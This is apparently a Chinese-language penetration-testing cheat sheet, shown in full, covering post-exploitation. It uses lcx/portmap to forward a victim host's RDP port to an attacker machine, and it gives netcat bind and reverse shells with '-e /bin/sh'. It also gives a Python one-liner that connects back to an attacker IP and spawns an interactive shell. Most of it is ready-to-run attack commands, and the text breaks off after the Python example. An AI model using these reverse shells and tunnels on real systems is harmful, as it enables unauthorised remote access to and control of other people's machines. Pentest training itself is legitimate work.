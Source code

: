 #### 1.端口转发

>   工具：lcx
>
>   download：https://github.com/yw9381/lcx

lcx的原理就是搭建Socket隧道，一个正常的Socket隧道必须具备两端：客户端、服务端，服务端开启监听端口，客户端传入服务端的IP与端口，主动与服务端连接

>   攻击机：192.168.1.2

在靶机上：`lcx.exe -slave 192.168.1.2 4444 127.0.0.1 3389`

(将本机的3389端口转发到攻击机的4444端口)

在攻击机上：`./portmap -m 2 -p1 4444 -h2 192.168.1.2 -p2 5555`

（将本地的4444端口接收的数据转发到5555端口）

然后访问本机的5555端口

```
kali下可：rdesktop "127.0.0.1:5555"
win下直接远程桌面链接：127.0.0.1:5555
```

#### 2.netcat

```sh
nc -help
-p 指定端口
-v 显示细节
-u 使用UDP传输协议
-l 监听模式
-w 设置超时时间
```

##### 获得shell

**正向shell**

正向连接使用频率较少，因为这种shell很容易被各种边界设备所拦截

靶机中：`nc -lvp 4444 -e /bin/sh`（把/bin/sh发送给请求本机4444端口的中断）

攻击机上：`nc 192.168.1.2 4444`

**反向shell**

受害及主动来连接攻击机，这种方法在渗透测试中更为常用，因为它可以突破许多边界设备的封锁

攻击机上：`nc -lvp 5555`

靶机上：	`nc 192.168.1.4 5555 -e /bin/sh`

这是在靶机上已经装了nc攻击，若没装的话，可使用其他来反弹shell：

###### 1.用pyhton反弹shell

```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("攻击机IP",攻击机监听的端口));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
